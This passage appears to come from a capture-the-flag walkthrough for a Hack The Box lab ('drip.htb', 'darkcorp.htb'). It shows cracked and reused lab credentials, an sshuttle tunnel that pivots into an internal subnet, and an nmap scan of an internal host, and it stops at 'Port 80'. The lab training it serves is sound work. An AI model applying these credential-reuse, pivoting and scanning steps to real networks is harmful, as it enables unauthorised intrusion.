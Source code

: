 
Then we can crack these hashes `victor.r:victor1gustavo@#`

Remember we get before `/etc/hosts`
```
127.0.0.1       localhost drip.htb mail.drip.htb dev-a3f1-01.drip.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

172.16.20.1 DC-01 DC-01.darkcorp.htb darkcorp.htb
172.16.20.3 drip.darkcorp.htb
```

We need to port forwarding into our local machine.
Let's use `sshuttle` for forwarding:
Don't forget to add to /etc/hosts :
`172.16.20.1 DC-01 DC-01.darkcorp.htb darkcorp.htb`
`172.16.20.3 drip.darkcorp.htb`

```
sshuttle -r ebelford:'ThePlague61780'@drip.htb -N 172.16.20.0/24
```

PS: sshuttle forwards only TCP traffic by default
`sshuttle` is mainly used to tunnel TCP traffic, and ICMP (the protocol used by the ping command) is not forwarded by default. Therefore, even if the tunnel is successfully established, the ping command may not be able to detect the connectivity of the target host through the tunnel.

Just in case, let's ping 172.16.20.2 :
```
$ ping 172.16.20.2
PING 172.16.20.2 (172.16.20.2) 56(84) bytes of data.
64 bytes from 172.16.20.2: icmp_seq=1 ttl=64 time=2557 ms
64 bytes from 172.16.20.2: icmp_seq=2 ttl=64 time=1620 ms
64 bytes from 172.16.20.2: icmp_seq=3 ttl=64 time=606 ms
```
And by `nmap`, we can check the valid port and services:
```
nmap -sCTV -Pn -vvv 172.16.20.2
80
5000
```
Port 80